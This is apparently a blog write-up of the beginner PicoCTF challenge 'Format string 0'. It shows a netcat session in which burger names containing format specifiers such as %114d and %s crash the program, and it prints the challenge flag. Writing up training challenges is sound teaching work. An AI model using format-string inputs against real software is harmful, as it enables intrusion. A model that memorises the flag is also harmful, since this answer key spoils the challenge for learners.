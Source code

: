 ```yaml
---
title: "Format string 0 from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# Format string 0 from PicoCTF
[page](https://play.picoctf.org/practice/challenge/433)
>Description
>Can you use your knowledge of format strings to make the customers happy?Download the binary [here](https://artifacts.picoctf.net/c_mimas/69/format-string-0).Download the source [here](https://artifacts.picoctf.net/c_mimas/69/format-string-0.c).

>Hints
>This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>Just try out the different options

Well it's a format string challenge so when you will connect to `NC`you have to choose `Format Specifiers`you will see: 
```
$ nc mimas.picoctf.net 50102
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
Here is the flag:
**picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}**
